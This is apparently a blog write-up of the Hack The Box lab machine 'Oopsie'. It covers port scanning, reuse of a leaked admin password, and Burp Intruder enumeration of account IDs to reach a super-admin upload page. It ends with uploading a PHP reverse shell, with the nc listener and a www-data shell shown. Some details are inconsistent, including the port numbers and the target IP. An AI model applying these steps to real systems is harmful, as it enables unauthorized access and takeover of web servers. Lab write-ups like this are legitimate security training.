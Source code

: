 ```yaml
---
title: "Writeup: Oopsie"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - oopsie
  - update
  - nmap
  - pwd
  - BURP
  - dirsearch.py
---
```


Here are notes from the named target:

*Enumeration* - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
Linux - 10.10.10.28
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

Results:
```yaml
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Two Ports open SSH and Web

*Enumerate* the Web port 80 - MegaCorpAutomotive

Using a web browser connect to the IP and look around. None of the menu links work but at the bottom of the home page it speaks about login but no page for that. Use BURP proxy to take a look at web traffic.

**BURP**

Using BURP and its uilt in browser no need to configure external browser.
  open web site and in BURP click :Forward" button on the Proxy tab until the page opens up:
  Switch to the :Target" tab and you see a folder tree under the Web IP for "CDN-CGI\login" add that to url path in browser and hit enter:
  back in BURP on the Proxy Tab click Forward to get to the Login Screen:
  
From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

Using that Admin user name and Password from ARCHETYPE works and we get the admin page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php
```

Look around that page:

  The uploads page says that "super admin" is needed to access but I am logged in as only Admin
  
  ```yaml
  http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
  ```
  
  Using BURP proxy again turn ON Intercept and capture the account page to get the user ID
  Send the page to intruder:
  
  Clear all the automatic set variables with the Cler button and highlight the id=1 then click add to gt this
  
  ```yaml
  GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1

Host: 10.10.10.28

Upgrade-Insecure-Requests: 1
```

Click the Payloads tab and we want to try id=1-100 so we got to list 1-100 numbers in the shell with

```yaml
for i in {1..100}
do
 # your-unix-command-here
 echo $i
done
```

Highlight the numbers 1-100 in the shell - Copy and then in BURP click Paste to add them to the Payloads section:

Click Options and scroll to bottom to the Redections section:
1. click always radio
2. check Process cookies in redirections
  
Click Target Tab and click Start Attack Button: the length field shows that responce text is different than others so taking a look at the ones with different length shows number 30 is "super admin" by choosing it with Response Tb anf RAW selected:

```yaml
<br /><br /><center><h1>Repair Management System</h1><br /><br />
<table><tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr></table<script src='/js/jquery.min.js'></script>
<script src='/js/bootstrap.min.js'></script>
</body>
```
  
Use the ID 86575 as the ID value in an uploads page and get access to upload a file.
that gets access to the uploads page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
```

Now I wanty to try and upload a PHP reverse shell

**Reverse Shell**
Locate PHP reverse shell from http://pentestmonkey.net/tools/web-shells/php-reverse-shell

Be sure to read what it does and update the IP and port. Save the PHP reverse shell (phpshell.php) and then upload it to the web page:

Now that it is uploaded you have to find out where it was uploaded to so you can browse to it and cause it to fire off:

Use *dirsearch.py*

```yaml
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -e php -u http://10.10.10.28 --exclude-status 403,401                                                                   2 ⨯

  _|. _ _  _  _  _ _|_    v0.4.1                                                                                                                     
 (_||| _) (/_(_|| (_| )                                                                                                                              
                                                                                                                                                     
Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/kali/dirsearch/logs/errors-20-12-31_12-22-28.log

Target: http://10.10.10.28/                                                                                                                          
                                                                                                                                                     
Output File: /home/kali/dirsearch/reports/10.10.10.28/_20-12-31_12-22-28.txt

[12:22:28] Starting: 
[12:22:40] 301 -  308B  - /css  ->  http://10.10.10.28/css/                                                                             
[12:22:42] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/                                       
[12:22:42] 301 -  311B  - /images  ->  http://10.10.10.28/images/  
[12:22:43] 200 -   11KB - /index.php                                                                           
[12:22:43] 200 -   11KB - /index.php/login/
[12:22:43] 301 -  307B  - /js  ->  http://10.10.10.28/js/                                               
[12:22:48] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/                                                 
[12:22:48] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/                       
                                                                                                
Task Completed                                   
```
Before we can fire the reverse shell we have to open a listener and have it wait for the connection from the web server reverse shell:

```yaml
nc -nlvp 4321
```
Now we try to browse to the "/uploads/phpshell.php" - you will aslso ne to use the ID of the Super Admin in the BURP Proxy then click "Forward"

**Got SHELL**

```yaml
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4321             
listening on [any] 4321 ...
connect to [10.10.14.87] from (UNKNOWN) [10.10.10.28] 51198
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:38:42 up 11:52,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
```

